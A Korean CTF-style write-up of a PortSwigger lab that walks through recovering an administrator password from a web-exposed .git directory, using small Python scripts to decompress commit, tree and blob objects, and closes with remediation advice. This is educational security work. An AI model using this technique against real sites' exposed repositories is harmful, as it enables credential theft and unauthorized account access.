



+++
date = '2026-07-29T22:00:00+09:00'
draft = false
title = '[Write-up] PortSwigger - Information disclosure in version control history'
summary = "공개된 .git의 loose object를 zlib으로 직접 순회해 이전 커밋의 관리자 비밀번호를 복구하는 Information Disclosure 풀이"
toc = true
tags = ["Information Disclosure", "Git", "Version Control", "PortSwigger", "Practitioner"]
+++

---

## 문제 분석

> **난이도**: `PRACTITIONER`  
> **Lab**: [Information disclosure in version control history](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-version-control-history)

> 

이 랩은 공개된 버전 관리 히스토리에서 민감정보를 노출한다. `administrator`의 비밀번호를 복구해 로그인한 뒤 `carlos` 사용자를 삭제하면 문제가 해결된다.

### Information Disclosure 진단

대표적인 버전 관리 디렉터리인 `/.git/`을 요청하면 Git 저장소의 파일과 디렉터리가 그대로 열린다.



`COMMIT_EDITMSG`에는 `Remove admin password from config`라는 최근 커밋 메시지가 남아 있다. 삭제 전 커밋에 관리자 비밀번호가 있었을 가능성이 있으므로 `.git/logs/HEAD`를 확인한다. 아래는 해시와 커밋 메시지를 중심으로 발췌한 내용이다.

```text
0000000000000000000000000000000000000000 c987d4117677c793cccbdb355daba551e6f61a39 ... commit (initial): Add skeleton admin panel
c987d4117677c793cccbdb355daba551e6f61a39 b5676010f6a4888540bf29bb37e8ed88294f2566 ... commit: Remove admin password from config
```

초기 커밋 `c987d4117677c793cccbdb355daba551e6f61a39`에 비밀번호가 있었을 가능성이 있으므로 loose object를 직접 따라간다.

---

## 익스플로잇

Git은 SHA-1의 앞 두 글자를 디렉터리로, 나머지 38글자를 파일명으로 사용한다. 따라서 초기 커밋 오브젝트는 `.git/objects/c9/87d4117677c793cccbdb355daba551e6f61a39`에 있다. 내려받은 파일을 zlib으로 해제한다.

```python
import zlib

data = zlib.decompress(open("87d4117677c793cccbdb355daba551e6f61a39", "rb").read())
print(data.decode("latin1"))
```

출력의 loose object 헤더는 `commit 209` 뒤의 NUL 바이트로 끝나고, 본문 첫 줄에서 전체 tree SHA-1을 확인할 수 있다. 아래 출력에서는 NUL 바이트를 `\0`으로 표시하고 작성자·시간 정보는 생략했다.

```text
commit 209\0tree 72cdd412ff3df04bdb323c91489c6881bada1527
...

Add skeleton admin panel
```

tree SHA-1은 `72cdd412ff3df04bdb323c91489c6881bada1527`이다. 따라서 `.git/objects/72/` 아래에서 요청할 파일명은 앞의 `72`를 뺀 `cdd412ff3df04bdb323c91489c6881bada1527`이다.

Git의 [loose object](https://git-scm.com/book/en/v2/Git-Internals-Git-Objects)는 `type`, 공백, 본문 길이, NUL 바이트 순서의 헤더 뒤에 본문이 온다. tree 본문은 각 `mode filename` 뒤의 NUL 바이트와 20바이트 raw SHA-1을 반복한다. 다음 코드로 항목을 파싱한다.

```python
import binascii
import zlib

data = zlib.decompress(open("cdd412ff3df04bdb323c91489c6881bada1527", "rb").read())
header, body = data.split(b"\x00", 1)
object_type, size = header.split(b" ", 1)

assert object_type == b"tree"
assert int(size) == len(body)

idx = 0
while idx < len(body):
    null_pos = body.index(b"\x00", idx)
    file_info = body[idx:null_pos].decode("latin1")
    sha_bytes = body[null_pos + 1:null_pos + 21]
    if len(sha_bytes) != 20:
        raise ValueError("invalid tree entry")

    sha_hex = binascii.hexlify(sha_bytes).decode("ascii")
    print(f"파일 정보: {file_info}  ==>  Blob 해시: {sha_hex}")
    idx = null_pos + 21
```

실행 결과 `admin.conf`의 blob SHA-1을 얻는다.

```text
파일 정보: 100644 admin.conf  ==>  Blob 해시: 481d9f8b27941078d860649421cdd420556c2b41
파일 정보: 100644 admin_panel.php  ==>  Blob 해시: 8944e3b9853691431dc58d5f4978d3940cea4af2
```

`admin.conf` 오브젝트는 `.git/objects/48/1d9f8b27941078d860649421cdd420556c2b41`에 있다. 같은 방식으로 압축을 해제하면 삭제 전 설정이 나온다.

```python
import zlib

data = zlib.decompress(open("1d9f8b27941078d860649421cdd420556c2b41", "rb").read())
print(data.decode("latin1"))
```

```text
blob 36\0ADMIN_PASSWORD=gdm6xgq4wbdn1zpyro99
```

복구한 비밀번호 `gdm6xgq4wbdn1zpyro99`로 `administrator` 계정에 로그인하고 `carlos` 사용자를 삭제하면 문제가 해결된다.



---

## 정리

현재 설정에서 비밀번호를 지웠어도 Git 오브젝트에는 이전 스냅샷이 남는다. 이 랩에서는 웹에 공개된 `.git` 디렉터리가 커밋 로그와 tree·blob 오브젝트를 모두 제공했고, 삭제 전 `admin.conf`까지 수동으로 복구할 수 있었다.

진단에서는 `/.git/HEAD`와 디렉터리 노출을 확인하고, 민감한 변경 메시지가 있으면 과거 커밋과 diff를 살핀다. 근본 대응은 웹 루트에서 저장소 메타데이터를 제거하고, 한 번 커밋된 비밀값은 히스토리 삭제만으로 끝내지 말고 반드시 폐기·교체하는 것이다. 다른 노출 경로는 [Information Disclosure Note](/note/portswigger-information-disclosure/)에서 정리한다.
